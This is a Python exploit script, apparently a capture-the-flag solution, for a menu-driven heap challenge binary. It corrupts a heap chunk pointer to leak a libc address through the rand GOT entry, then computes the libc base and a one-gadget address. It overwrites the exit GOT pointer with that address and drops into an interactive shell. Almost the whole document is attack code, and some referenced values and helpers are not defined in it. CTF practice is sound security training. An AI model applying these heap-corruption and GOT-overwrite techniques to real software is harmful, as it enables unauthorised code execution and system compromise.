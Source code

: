 ```python

def alloc(_size):
    menu(1)
    sleep(0.3)
    s.recvuntil("Let's ding_malloc!\n")
    sleep(0.3)
    #s.recvuntil("Give me size n < 2049: ")
    s.sendline(str(_size))

def show_heap():
    menu(3)
    s.recvuntil("010 0x")
    rand_libc = int(s.recv(12),16)
    return rand_libc

def fill_data(_binnum, _chunknum, _data):
    menu(4)
    sleep(0.3)
    #s.recvuntil("bin num? : ")
    s.sendline(str(_binnum))
    sleep(0.3)
    #s.recvuntil("chunk num? : ")
    s.sendline(str(_chunknum))
    #s.recvuntil("input: ")
    sleep(0.3)
    s.send(_data)

def libc_leak():
    alloc(10)
    #alloc(10)
    fill_data(0,0, "A"*8+p64(rand_got))
    alloc(10)
    rand_libc = show_heap()
    return rand_libc

def solver(_system):
    fill_data(0,0, "A"*8+p64(exit_got_ptr))
    alloc(10)
    fill_data(0,4, p64(_system))
    menu(5)

auth()
rand_libc = libc_leak()

libc_base = rand_libc-rand_offset
system_libc = libc_base+system_offset
one_shot = libc_base + 0x4526a
log.info("rand_libc : %x" % rand_libc)
log.info("libc_base : %x" % libc_base)
log.info("system_libc : %x" % system_libc)
log.info("one_shot : %x" % one_shot)

solver(one_shot)

s.interactive()
s.close()
```